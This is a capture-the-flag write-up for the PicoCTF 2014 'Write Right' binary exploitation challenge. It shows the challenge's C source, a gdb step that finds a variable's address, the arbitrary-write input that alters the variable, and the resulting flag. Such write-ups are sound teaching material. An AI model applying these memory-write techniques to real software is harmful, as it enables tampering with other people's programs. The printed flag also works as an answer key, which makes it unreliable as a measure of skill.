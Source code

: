 # Pico-CTF 2014: Write Right 

**Category:** Binary Exploitation
**Points:** 50
**Total Solves:** Not Available
## Problem Description:
[//]: # (Description of your problem. For eg use below description as a template)
[//]: # (> This program is vulnerable to a format string attack! See if you can modify a variable by supplying a format string! The binary can be found at /home/format/ on the shell server. The source can be found [here](format.c\).)
> Can you change the secret? The binary can be found at /home/write_right/ on the shell server. The source can be found [here](write_right.c). 

## Write-up
[//]: # (> Your write up goes here.)
> Looking at source code its easy to understand that write_right binary reads address and write whatever user gives it as a input.
Looking at source code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>

unsigned secret = 0xdeadbeef;

int main(int argc, char **argv){
    unsigned *ptr;
    unsigned value;

    char key[33];
    FILE *f;

    printf("Welcome! I will grant you one arbitrary write!\n");
    printf("Where do you want to write to? ");
    scanf("%p", &ptr);
    printf("Okay! What do you want to write there? ");
    scanf("%p", (void **)&value);

    printf("Writing %p to %p...\n", (void *)value, (void *)ptr);
    *ptr = value;
    printf("Value written!\n");

    if (secret == 0x1337beef){
        printf("Woah! You changed my secret!\n");
        printf("I guess this means you get a flag now...\n");

        f = fopen("flag.txt", "r");
        fgets(key, 32, f);
        fclose(f);
        puts(key);

        exit(0);
    }

    printf("My secret is still safe! Sorry.\n");
}
``` 

> Solution to get the flag is to give the address of variable secret when it asks where you want to write and when it ask what you want to write give the secret `1337beef` as format specifier specified in scanf function is `%p`, so we don't need to give the int of 1337beef.
> To get the address of secret variable start the program in gdb and give the command: `p &secret` (equivalent to print &secret)

```bash
pico1139@shell:/home/write_right$ gdb -q write_right
Reading symbols from write_right...(no debugging symbols found)...done.
(gdb) p &secret
$1 = (<data variable, no debug info> *) 0x804a03c <secret>
```

> Address of secret is 0x804a03c. After getting the address ran the binary:
> > ```
pico1139@shell:/home/write_right$ ./write_right
Welcome! I will grant you one arbitrary write!
Where do you want to write to? 804a03c
Okay! What do you want to write there? 1337beef
Writing 0x1337beef to 0x804a03c...
Value written!
Woah! You changed my secret!
I guess this means you get a flag now...
arbitrary_write_is_always_right
```
> The flag is **arbitrary_write_is_always_right**

## Other write-ups and resources

* None
